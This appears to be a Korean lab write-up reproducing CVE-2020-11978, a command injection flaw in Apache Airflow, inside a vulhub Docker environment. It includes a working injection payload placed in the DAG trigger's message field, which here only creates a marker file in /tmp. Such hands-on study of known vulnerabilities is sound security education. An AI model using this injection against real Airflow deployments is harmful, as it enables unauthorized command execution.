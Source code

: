 #CVE-2020-11978 - Apache Airflow


개요]
Apache Airflow는 Python 기반의 워크플로우 스케줄링 도구로, DAG(Directed Acyclic Graph)를 기반으로 작업을 정의하고 실행합니다.  
버전 1.10.10 이전에는 `example_trigger_target_dag` 내 사용자 입력값이 필터링되지 않아, **명령어 인젝션(command injection)** 이 가능한 취약점이 발견되었습니다. 이 실습은 해당 취약점을 기반으로 취약한 컨테이너 환경을 구성하고, 공격 흐름을 직접 따라해보며 이해하는 데 목적이 있습니다.

실습 환경]
- Ubuntu 20.04 (VirtualBox 가상 머신)
- Docker + docker-compose
- Airflow 1.10.10 (vulhub 이미지 사용)

1. 취약 환경 구축]

vulhub 프로젝트를 클론한 뒤, Airflow 취약점 환경 디렉토리로 이동하여 컨테이너를 실행합니다.

git clone https://github.com/vulhub/vulhub.git

cd vulhub/airflow/CVE-2020-11978

sudo docker compose run airflow-init

sudo docker compose up -d


2. Airflow 관리 페이지 접속
브라우저에서 http://localhost:8080 접속하여 DAG 목록을 확인합니다.


3. 취약한 DAG 활성화 및 공격 시도
example_trigger_target_dag를 On으로 활성화하였습니다.


오른쪽 Trigger DAG 버튼을 클릭하였습니다.


그리고 다음과 같이 명령어 인젝션 페이로드를 입력하였습니다.
{"message":"'\";touch /tmp/airflow_dag_success;#"}

공격 시도 결과
sudo docker compose exec airflow-worker ls –l /tmp를 확인하면
`/tmp/airflow_dag_success` 파일이 생성되어 명령어 인젝션을 성공하게 됩니다.
